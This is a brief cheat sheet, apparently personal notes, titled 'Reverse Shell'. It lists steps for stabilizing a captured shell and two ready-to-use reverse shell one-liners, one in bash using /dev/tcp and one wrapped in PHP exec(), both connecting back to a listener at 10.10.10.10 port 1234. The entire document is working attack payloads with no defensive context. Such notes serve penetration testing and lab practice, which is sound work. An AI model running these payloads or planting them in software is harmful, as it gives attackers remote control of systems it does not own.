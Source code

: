 # Reverse Shell


# estabilize shell?

```
script /dev/null -c /bin/bash
CTRL + Z
stty raw -echo; fg
Then press Enter twice, and then enter:
export TERM=xterm
```




# Bash
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'

# PHP - Bash
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'");
